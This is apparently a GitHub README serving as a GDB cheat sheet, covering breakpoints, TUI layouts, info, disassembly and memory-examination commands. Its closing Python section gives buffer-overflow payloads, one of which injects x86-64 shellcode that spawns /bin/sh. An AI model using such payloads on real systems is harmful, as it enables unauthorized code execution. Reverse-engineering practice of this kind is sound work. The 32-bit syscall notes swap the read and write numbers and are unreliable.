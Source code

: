 # GDB commands

### Basic Commands 
---------------------------------------------------------
 ```
 run or r       -**RUN** the program from start to end.
 break or b     -**SET BREAKPOINT** on a particular line.
 disable        -**DISABLE** a **BREAKPOINT**.
 enable         -**ENABLE** a **DISABLED BREAKPOINT**.
 next or n      -**NEXT LINE** of code aka step-over
 step or s      -**STEP IN** to the function
 list or l      -**DISPLAY** the code.
 print or p     -**PRINT** stored values.
 quit or q      -**EXIT** out of gdb.
 clear          -**CLEAR** all breakpoints.
 continue or c  -**CONTINUE** normal execution   
 bt             -**BACKTRACK**
 ```
### Special Commands 
---------------------------------------------------------
 
 **GUI / TUI mode** the code.
 ```
 layout asm
 layout regs
 press 'CTRL + X + A'            to EXIT
 press 'CTRL + X' then 'o'       will switch window.. NOT 'CTRL + X + o'
 ```
 
 **INFO**
 ```
 info file
 info functions
 info break
 info reg
 info proc map
 ```
 
 **Breakpoint Usage**
 ```
 b * 0x11111111111
 b * main+55
 delete 1
 disable 2
 ```
**Disassemble**
```
disas main
disas method_name
```

**Print**
```
x/100i         //look at the next 100 lines
x/si 0x80480ea //print string
x/s $esi       //prints whats in the register in strings
x/d $eip       //print contents of register eip  
print $rbp
```

**32 bit**
```
READ
mov eax, 0x4
mov eax, 0x1
mov some register with address

Write
mov eax, 0x3
mov eax, 0x2
mov some register with address
```

**Python**
```
r <<< $(python -c "print 'A'*40 + '\xff\xff\xff\xff\xff\xff'")
r < <(python3 -c "print(b'\x50\x48\x31\xD2\x48\x31\xF6\x48\xBB\x2F\x62\x69\x6E\x2F\x2F\x73\x68\x53\x54\x5F\xB0\x3B\x0F\x05' + b'A'*16 + b'\xe0\xde\xFF\xFF\xFF\x7F\x00\x00')";cat)
```
